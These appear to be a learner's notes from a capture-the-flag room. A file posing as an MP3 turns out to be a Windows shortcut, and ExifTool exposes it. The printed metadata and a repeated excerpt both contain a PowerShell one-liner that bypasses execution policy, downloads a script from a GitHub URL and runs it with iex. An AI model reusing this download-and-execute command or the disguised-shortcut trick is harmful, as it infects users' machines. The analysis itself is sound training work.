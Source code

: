Now, this is more interesting!

The output tells us that instead of an MP3, the file is an "MS Windows shortcut", also known as a `.lnk` file. This file type is used in Windows to link to another file, folder, or application. These shortcuts can also be used to run commands! If you've ever seen the shortcuts on a Windows desktop, you already know what they are.

There are multiple ways to inspect `.lnk`  files to reveal the embedded commands and attributes. For this room, however, we'll use **ExifTool**, which is already installed on this machine.

To do this, go back to your Terminal and type:

```
exiftool somg.mp3 
ExifTool Version Number         : 13.00
File Name                       : somg.mp3
Directory                       : .
File Size                       : 2.2 kB
File Modification Date/Time     : 2024:10:30 14:32:52-05:00
File Access Date/Time           : 2024:10:30 14:32:52-05:00
File Inode Change Date/Time     : 2024:12:13 12:32:41-06:00
File Permissions                : -rw-rw-r--
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, Unicode, TargetMetadata
File Attributes                 : Archive
Create Date                     : 2018:09:15 02:14:14-05:00
Access Date                     : 2018:09:15 02:14:14-05:00
Modify Date                     : 2018:09:15 02:14:14-05:00
Target File Size                : 448000
Icon Index                      : (none)
Run Window                      : Normal
Hot Key                         : (none)
Target File DOS Name            : powershell.exe
Drive Type                      : Fixed Disk
Drive Serial Number             : A8A4-C362
Volume Label                    : 
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019
```

- Llama la atecion
```
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID       
```
